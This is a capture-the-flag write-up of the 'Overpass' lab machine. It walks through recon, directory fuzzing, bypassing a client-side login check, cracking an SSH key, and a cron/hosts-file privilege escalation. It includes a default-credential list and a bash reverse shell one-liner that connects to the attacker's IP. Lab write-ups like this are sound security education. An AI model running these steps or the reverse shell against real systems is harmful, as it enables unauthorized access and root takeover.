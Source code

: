 What happens when a group of broke Computer Science students try to make a password manager?  
Obviously a _perfect_ commercial success! I mean right... right?

### Recon
We can start by performing an aggressive scan on our target using nmap, the purpose of this aggressive scan is to find open ports, server operating system, service versions and traceroute results.
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/nmap_scan.png?raw=true)
From the above scan we gather that the target has port 22 open which is SSH and port 80 which means that there is a website running on the server. When we visit the IP address on the server, we get to see the following landing page
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/overpass_web.png?raw=true)
We can also see that we have an About us and Downloads page. We can proceed to looking for other directories in the next step which is the enumeration stage.

### Enumeration
We can fire up dirb to fuzz the target website so as to search for hidden directories which can be used in gaining access to this webpage.
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/dirb_fuzz.png?raw=true)
From the search done so far, we can gather that we have an admin section on the website, when we navigate to that site we get the following login page.
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/admin_login_page.png?raw=true)

### Gaining initial access
We can try and gain access using default credentials, for this we can enter the credentials manually, examples we can use include
```txt
admin:admin
admin:password
root:root
root:toor
root:password
```
We can see that none of those combinations work on the login page, I tried SQL injection on the login form but it did not work, we can inspecting the sites page and look at the function responsible for logging us in.
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/login_flaw.png?raw=true)
when we look at the if statement on line 36, it tells us that tid the cookie is incorrect credentials, it is not supposed to authenticate us otherwise if the cookie is anything else apart from incorrect credentials it should log us in, using this discovery we can try to login to our page without valid credentials, to perform this daring act, we shall use burpsuite to intercept the traffic being sent to the server from the laptop so as to alter the response that we get.
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/intercept_login_traffic.png?raw=true)
We can then proceed to intercept the response from the above request, we get the following response 
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/intercepted_response.png?raw=true)
We can then change this response to 
```json
HTTP/1.1 302 FOUND  
Date: Mon, 20 Jul 2020 14:33:13 GMT  
Content-Length: 21  
Content-Type: text/plain; charset=utf-8  
Connection: close  
location: /admin
```
forward the response and then refresh the browser we get the following result
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/logged_in.png?raw=true)
Voila! we are logged in on this page we get a message to James who forgets his password and an encrypted version of his SSH private key has been uploaded for him by Paradox.
We can save this hash to our attack machine and create a hash using ssh2john 

![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/hashed_key.png?raw=true)

We can then proceed to saving this hash so that we can crack it using JohnTheRipper 

![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/hash_cracking.png?raw=true)

Voila we were able to crack James' password, we can now login as james using SSH and extract our flag.
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/initial_access.png?raw=true)
We can now collect our user flag before we can continue with privilege escalation
### Privilege escalation
Upon futher enumeration, we were able to discover that there is a cron job that runs a bash script after sending a curl request to `overpass.thm`, looking further we can see that the directory `/etc/hosts` is writable meaning that we can exploit this to get super user privileges.
We can then proceed to creating a script that allows us to connect to our target server 
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.8.16.98/443 0>&1
```
We can then start a python server on our machine which will serve the above script to our target. 
We can then go to our attack machine and edit our `/etc/hosts` to make `overpass.thm` point to our attack machine.
We can then start our netcat listener to listen to connections. This is then a waiting game as we wait for the cron job to run our reverse shell.
![image](https://github.com/kiiru4reals/writeups/blob/main/overpass/screenshots/root_privileges.png?raw=true)
We are able to get a reverse shell as a root user, at this point we can collect the root flag and finish the box.

### Conclusion
Through a flawed login function, we were able to login to the overpass web application and get the James' SSH key, to prevent this case the developers of Overpass should analyze their code to find such flaws using open source security tools like Snyk Code. To read more about secure coding practices you can check out my post [here](https://kiiru4reals.wixsite.com/kiirudoescyber/post/writing-secure-code) 